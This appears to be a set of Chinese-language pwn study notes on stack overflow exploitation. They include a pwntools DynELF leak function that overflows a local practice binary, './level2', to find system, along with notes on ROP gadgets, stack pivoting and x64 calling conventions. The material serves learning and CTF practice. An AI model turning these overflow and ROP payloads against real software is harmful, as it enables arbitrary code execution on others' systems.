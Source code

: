 #### 地址泄漏方法
X86系列中，在没有so文件的条件下，通过DynELF来逐步泄露内存信息，从而确定system的位置，然后将'/bin/sh\0'写入到.bss段（没有开PIE保护下，readelf命令可查）

``` python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data


p = process('./level2')
#p = remote('127.0.0.1', 10002)

d = DynELF(leak, elf=ELF('./level2'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

构造payload的结构如下 p32(call_fun_addr) + p32(ret_addr) + p32(param1） + p32(param2) + p32(param3)
p32(ret_addr) 为gadget位置，控制程序流程
```

#### ROP chain Gadgets

**Gadgets**
    1. 以ret结尾的指令序列
    	· pop ebx + pop eax + ret
    	· add eax, ebx + xor eax, ecx + ret
    2. call eax/jmp eax
    3. int 0x80

ROP常用操作：
1. 覆盖不到EIP，可以覆盖指针变量，通过变量访问可以实现任意地址读/写
2. 覆盖EBP实现栈迁移

    注释：
    利用的时候利用read_syscall  到execve_syscall  利用返回值当参数

    注意积累栈迁移的做法，pop ebp, ret  并且利用read函数的写入功能，将执行地址写入到数据段，然后栈迁移到数据段（pop ebp; ret）, 再利用 leave; ret
    p32(pop ebp;ret) + p32(buf - 4) + p32(leave; ret) 这样进行栈迁移

    Leave等价于：
    movl %ebp %esp           mov esp, ebp
    popl %ebp                      pop   ebp



#### linux_64特点
linux_64与linux_86的区别主要有两点：
1. 首先是内存地址的范围由32位变成了64位，但是可以使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。
2. 其次是函数参数的传递方式发生了改变，x86中参数都是保存在栈上,但在x64中的前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上。

##### x64 Gadget
* pop rdi; ret
* pop rax ; pop rdi ; call rax
